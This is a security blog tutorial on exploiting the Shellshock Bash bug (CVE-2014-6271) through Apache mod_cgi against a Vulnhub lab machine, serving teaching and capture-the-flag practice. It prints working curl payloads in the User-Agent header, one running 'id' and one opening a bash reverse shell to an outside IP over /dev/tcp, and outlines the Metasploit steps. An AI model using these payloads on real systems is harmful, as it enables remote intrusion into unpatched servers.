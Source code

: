 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author:
paginate: false
---
```

<p align="justify"> One of the most critical bugs that came out in last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">
</center>

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/">"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<center><br>
<img src="/assets/img/uploads/shellshock/nikto.png">
</center>

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<center>
<img src="/assets/img/uploads/shellshock/shell.png">
</center>

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT = curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasaploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-search.png">
</center>

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-options.png">
</center>
<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/msf-exploit.png">
</center>
<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet">Zet Aboard.</a>